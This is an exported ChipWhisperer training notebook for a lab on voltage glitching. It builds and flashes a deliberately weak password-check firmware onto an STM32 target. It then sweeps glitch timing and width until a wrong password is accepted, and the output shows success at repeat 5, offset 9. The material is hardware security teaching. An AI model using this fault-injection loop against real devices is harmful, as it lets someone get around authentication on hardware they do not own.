

Part 2, Topic 2: Voltage Glitching to Bypass Password
=====================================================

**SUMMARY:** *We’ve seen how voltage glitching can be used to corrupt
calculations, just like clock glitching. Let’s continue on and see if it
can also be used to break past a password check.*

**LEARNING OUTCOMES:**

-  Applying previous glitch settings to new firmware
-  Checking for success and failure when glitching

Firmware
--------

Again, we’ve already covered this lab, so it’ll be mostly up to you!

**In [1]:**

.. code:: ipython3

    SCOPETYPE = 'CWNANO'
    PLATFORM = 'CWNANO'

**In [2]:**

.. code:: bash

    %%bash -s "$PLATFORM"
    cd ../../../hardware/victims/firmware/simpleserial-glitch
    make PLATFORM=$1 CRYPTO_TARGET=NONE

**Out [2]:**

.. parsed-literal::

    SS\_VER set to SS\_VER\_1\_1
    rm -f -- simpleserial-glitch-CWNANO.hex
    rm -f -- simpleserial-glitch-CWNANO.eep
    rm -f -- simpleserial-glitch-CWNANO.cof
    rm -f -- simpleserial-glitch-CWNANO.elf
    rm -f -- simpleserial-glitch-CWNANO.map
    rm -f -- simpleserial-glitch-CWNANO.sym
    rm -f -- simpleserial-glitch-CWNANO.lss
    rm -f -- objdir/\*.o
    rm -f -- objdir/\*.lst
    rm -f -- simpleserial-glitch.s simpleserial.s stm32f0\_hal\_nano.s stm32f0\_hal\_lowlevel.s
    rm -f -- simpleserial-glitch.d simpleserial.d stm32f0\_hal\_nano.d stm32f0\_hal\_lowlevel.d
    rm -f -- simpleserial-glitch.i simpleserial.i stm32f0\_hal\_nano.i stm32f0\_hal\_lowlevel.i
    .
    Welcome to another exciting ChipWhisperer target build!!
    arm-none-eabi-gcc.exe (GNU Arm Embedded Toolchain 9-2020-q2-update) 9.3.1 20200408 (release)
    Copyright (C) 2019 Free Software Foundation, Inc.
    This is free software; see the source for copying conditions.  There is NO
    warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
    
    .
    Compiling C: simpleserial-glitch.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-glitch.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/simpleserial-glitch.o.d simpleserial-glitch.c -o objdir/simpleserial-glitch.o 
    .
    Compiling C: .././simpleserial/simpleserial.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/simpleserial.o.d .././simpleserial/simpleserial.c -o objdir/simpleserial.o 
    .
    Compiling C: .././hal/stm32f0\_nano/stm32f0\_hal\_nano.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f0\_hal\_nano.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f0\_hal\_nano.o.d .././hal/stm32f0\_nano/stm32f0\_hal\_nano.c -o objdir/stm32f0\_hal\_nano.o 
    .
    Compiling C: .././hal/stm32f0/stm32f0\_hal\_lowlevel.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f0\_hal\_lowlevel.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f0\_hal\_lowlevel.o.d .././hal/stm32f0/stm32f0\_hal\_lowlevel.c -o objdir/stm32f0\_hal\_lowlevel.o 
    .
    Assembling: .././hal/stm32f0/stm32f0\_startup.S
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -x assembler-with-cpp -mthumb -mfloat-abi=soft -ffunction-sections -DF\_CPU=7372800 -Wa,-gstabs,-adhlns=objdir/stm32f0\_startup.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ .././hal/stm32f0/stm32f0\_startup.S -o objdir/stm32f0\_startup.o
    .
    Linking: simpleserial-glitch-CWNANO.elf
    arm-none-eabi-gcc -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-glitch.o -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/simpleserial-glitch-CWNANO.elf.d objdir/simpleserial-glitch.o objdir/simpleserial.o objdir/stm32f0\_hal\_nano.o objdir/stm32f0\_hal\_lowlevel.o objdir/stm32f0\_startup.o --output simpleserial-glitch-CWNANO.elf --specs=nano.specs --specs=nosys.specs -T .././hal/stm32f0\_nano/LinkerScript.ld -Wl,--gc-sections -lm -mthumb -mcpu=cortex-m0  -Wl,-Map=simpleserial-glitch-CWNANO.map,--cref   -lm  
    .
    Creating load file for Flash: simpleserial-glitch-CWNANO.hex
    arm-none-eabi-objcopy -O ihex -R .eeprom -R .fuse -R .lock -R .signature simpleserial-glitch-CWNANO.elf simpleserial-glitch-CWNANO.hex
    .
    Creating load file for EEPROM: simpleserial-glitch-CWNANO.eep
    arm-none-eabi-objcopy -j .eeprom --set-section-flags=.eeprom="alloc,load" \
    --change-section-lma .eeprom=0 --no-change-warnings -O ihex simpleserial-glitch-CWNANO.elf simpleserial-glitch-CWNANO.eep \|\| exit 0
    .
    Creating Extended Listing: simpleserial-glitch-CWNANO.lss
    arm-none-eabi-objdump -h -S -z simpleserial-glitch-CWNANO.elf > simpleserial-glitch-CWNANO.lss
    .
    Creating Symbol Table: simpleserial-glitch-CWNANO.sym
    arm-none-eabi-nm -n simpleserial-glitch-CWNANO.elf > simpleserial-glitch-CWNANO.sym
    Size after:
       text	   data	    bss	    dec	    hex	filename
       4740	     12	   1292	   6044	   179c	simpleserial-glitch-CWNANO.elf
    +--------------------------------------------------------
    + Default target does full rebuild each time.
    + Specify buildtarget == allquick == to avoid full rebuild
    +--------------------------------------------------------
    +--------------------------------------------------------
    + Built for platform CWNANO Built-in Target (STM32F030) with:
    + CRYPTO\_TARGET = NONE
    + CRYPTO\_OPTIONS = 
    +--------------------------------------------------------
    

**In [3]:**

.. code:: ipython3

    %run "../../Setup_Scripts/Setup_Generic.ipynb"

**Out [3]:**

.. parsed-literal::

    Serial baud rate = 38400
    INFO: Found ChipWhisperer😍
    

**In [4]:**

.. code:: ipython3

    fw_path = "../../../hardware/victims/firmware/simpleserial-glitch/simpleserial-glitch-{}.hex".format(PLATFORM)
    cw.program_target(scope, prog, fw_path)

**Out [4]:**

.. parsed-literal::

    Serial baud rate = 115200
    Detected known STMF32: STM32F03xx4/03xx6
    Extended erase (0x44), this can take ten seconds or more
    Attempting to program 4751 bytes at 0x8000000
    STM32F Programming flash...
    STM32F Reading flash...
    Verified flash OK, 4751 bytes
    Serial baud rate = 38400
    

**In [5]:**

.. code:: ipython3

    scope.io.clkout = 7.5E6
    target.baud = 38400*7.5/7.37
    def reboot_flush():            
        scope.io.nrst = False
        time.sleep(0.05)
        scope.io.nrst = "high_z"
        time.sleep(0.05)
        #Flush garbage too
        target.flush()

**Out [5]:**

.. parsed-literal::

    Serial baud rate = 39077.34056987788
    

**In [6]:**

.. code:: ipython3

    #Do glitch loop
    reboot_flush()
    pw = bytearray([0x74, 0x6F, 0x75, 0x63, 0x68])
    target.simpleserial_write('p', pw)
    
    val = target.simpleserial_read_witherrors('r', 1, glitch_timeout=10)#For loop check
    valid = val['valid']
    if valid:
        response = val['payload']
        raw_serial = val['full_response']
        error_code = val['rv']
    
    print(val)

**Out [6]:**

.. parsed-literal::

    {'valid': True, 'payload': CWbytearray(b'01'), 'full\_response': 'r01\n', 'rv': 1}
    

**In [7]:**

.. code:: ipython3

    import matplotlib.pylab as plt
    import chipwhisperer.common.results.glitch as glitch
    gc = glitch.GlitchController(groups=["success", "reset", "normal"], parameters=["repeat", "ext_offset"])
    gc.display_stats()

**Out [7]:**

**In [8]:**

.. code:: ipython3

    %matplotlib inline
    import matplotlib.pylab as plt
    fig = plt.figure()

**Out [8]:**

.. parsed-literal::

    <Figure size 432x288 with 0 Axes>

**In [9]:**

.. code:: ipython3

    from importlib import reload
    import chipwhisperer.common.results.glitch as glitch
    from tqdm.notebook import tqdm
    import re
    import struct
    
    g_step = 1
    
    gc.set_global_step(g_step)
    gc.set_range("repeat", 1, 7)
    gc.set_range("ext_offset", 1, 30)
    
    gc.set_global_step(1)
    
    reboot_flush()
    sample_size = 1
    scope.glitch.repeat = 0
    broken = False
    
    for glitch_settings in gc.glitch_values():
        scope.glitch.repeat = glitch_settings[0]
        scope.glitch.ext_offset = glitch_settings[1]
        if broken:
            break
        for i in range(5):
            scope.arm()
            target.simpleserial_write('p', bytearray([0]*5))
            ret = scope.capture()
    
            val = target.simpleserial_read_witherrors('r', 1, glitch_timeout=10)#For loop check
            if ret:
                print('Timeout - no trigger')
                gc.add("reset", (scope.glitch.repeat, scope.glitch.ext_offset))
                plt.plot(scope.glitch.ext_offset, scope.glitch.repeat, 'xr', alpha=1)
                fig.canvas.draw()
    
                #Device is slow to boot?
                reboot_flush()
    
            else:
                if val['valid'] is False:
                    gc.add("reset", (scope.glitch.repeat, scope.glitch.ext_offset))
                    plt.plot(scope.glitch.ext_offset, scope.glitch.repeat, 'xr', alpha=1)
                    fig.canvas.draw()
                    reboot_flush()
                else:
                    if val['rv'] == 1: #for loop check
                        broken = True
                        gc.add("success", (scope.glitch.repeat, scope.glitch.ext_offset))
                        print(val)
                        print(val['payload'])
                        print(scope.glitch.repeat, scope.glitch.ext_offset)
                        print("🐙", end="")
                        plt.plot(scope.glitch.ext_offset, scope.glitch.repeat, '+g', alpha=1)
                        fig.canvas.draw()
                        break
                    else:
                        gc.add("normal", (scope.glitch.repeat, scope.glitch.ext_offset))

**Out [9]:**

.. parsed-literal::

    {'valid': True, 'payload': CWbytearray(b'01'), 'full\_response': 'r01\n', 'rv': 1}
    CWbytearray(b'01')
    5 9
    🐙

**In [10]:**

.. code:: ipython3

    scope.dis()
    target.dis()

**In [11]:**

.. code:: ipython3

    assert broken is True
